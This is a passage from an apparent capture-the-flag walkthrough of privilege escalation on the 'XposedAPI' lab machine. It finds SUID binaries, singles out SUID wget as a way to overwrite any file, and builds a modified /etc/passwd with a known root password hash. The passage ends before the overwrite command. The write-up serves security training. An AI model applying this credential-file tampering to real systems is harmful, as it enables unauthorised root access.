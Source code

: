 We have shell as user `clumsyadmin`.

![](assets/img/xposedapi-pg/meme2.gif)

## PRIVILEGE ESCALATION :

Let us begin by searching for SUID bit set files:

```
clumsyadmin@xposedapi:/home/clumsyadmin$ find / -type f -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/bin/mount
/usr/bin/passwd
/usr/bin/su
/usr/bin/wget
/usr/bin/fusermount
/usr/bin/umount
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/gpasswd
```

The one binary that should catch our eye is the `wget` binary.

With `wget`, we might not be able to drop elevated privileges, but we can modify any file on the filesystem with `-O` option. 

In this case I am going to manipulate the `/etc/passwd` file to get root access.

First, let us copy the contents of `/etc/passwd`. Then we use `mkpasswd` to generate a SHA-512 hash for the root user.

```
┌──(root💀nehal)-[~]
└─# mkpasswd -m sha-512 hacked
$6$Pql6Fkn4r0/1Jqmj$wGiMOaxqEnvtCrAMADo71gtOKsNsu4FlqonAq4hcfhu3dQptpDcEcFfUp2LvyTW2dy799l/ZzCHABhsIizSLY.
```

Now we need to paste the hash on the password field of root user in `/etc/passwd` copy.

```
root:$6$Pql6Fkn4r0/1Jqmj$wGiMOaxqEnvtCrAMADo71gtOKsNsu4FlqonAq4hcfhu3dQptpDcEcFfUp2LvyTW2dy799l/ZzCHABhsIizSLY.:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
```